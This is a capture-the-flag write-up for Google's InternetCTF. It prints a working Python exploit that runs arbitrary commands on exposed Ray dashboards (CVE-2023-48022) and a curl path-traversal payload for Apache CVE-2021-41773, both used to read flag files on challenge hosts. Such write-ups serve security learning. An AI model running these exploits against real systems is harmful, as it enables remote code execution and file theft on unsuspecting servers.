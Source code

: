 ```yaml
---
description: https://capturetheflag.withgoogle.com/internet
---
```


# Google InternetCTF

This page contains mic check and known vulns.

## Mic Check

```
tap tap tap Is this thing on? Here's a flag CTF{welcome_internetctf}
```

## Exposed Ray Dashboard (known rce)

Read more about  CVE-2023-48022 at : [https://www.vicarius.io/vsociety/posts/the-story-of-shadowray-cve-2023-48022](https://www.vicarius.io/vsociety/posts/the-story-of-shadowray-cve-2023-48022)

Modified `exploit.py`

```python
import argparse
import time
import os
import ray
from ray.job_submission import JobSubmissionClient, JobStatus
import re
import sys

# Function to submit a job to the Ray cluster
def submit_job(host, cmd):
    client = JobSubmissionClient(f"{host}")
    job_id = client.submit_job(
        entrypoint=f"{cmd}",
        runtime_env={"working_dir": "./"}
    )
    print(f"Submitted job ID: {job_id}")
    return client, job_id

# Wait for a job to reach a specified status or timeout
def wait_until_status(client, job_id, status_to_wait_for, timeout_seconds=300):
    start = time.time()
    while time.time() - start <= timeout_seconds:
        status = client.get_job_status(job_id)
        print(f"Status: {status}")
        if status in status_to_wait_for:
            break
        time.sleep(1)

# Check if the host matches the required format
def validate_host_format(host):
    if not re.match(r'^https?://\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}:\d+$', host):
        print("Error: Host must be in the format 'http(s)://<ip>:<port>'.")
        sys.exit(1)
        
if __name__ == "__main__":
    # Parse command line arguments
    parser = argparse.ArgumentParser(description="Submit a job to Ray cluster with dynamic host and command execution.")
    parser.add_argument("--host", type=str, required=True, help="The host address of the Ray cluster head node. Format: http(s)://<ip>:<port>")
    parser.add_argument("--cmd", type=str, required=True, help="The command to be executed on the Ray cluster.")
    args = parser.parse_args()
    validate_host_format(args.host)

    client, job_id = submit_job(args.host, args.cmd)

    wait_until_status(client, job_id, {JobStatus.SUCCEEDED, JobStatus.STOPPED, JobStatus.FAILED})

    # Retrieve and print logs from the job
    logs = client.get_job_logs(job_id)
    print(logs)
```

get the ip of the hosted url using `dig`

```sh
 python3 exploit.py --host http://34.147.80.1:1337 --cmd 'cat /flag/flag.txt'
```

## Apache CVE-2021-41773 (path traversal)

Read more about CVE-2021-41773 at : [https://www.hackthebox.com/blog/cve-2021-41773-explained](https://www.hackthebox.com/blog/cve-2021-41773-explained)

{% code overflow="wrap" %}
```sh
curl http://chal-apache.internet-ctf.kctf.cloud:1337/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag/flag.txt
```
{% endcode %}

## Node-Red Exposed UI (known rce)
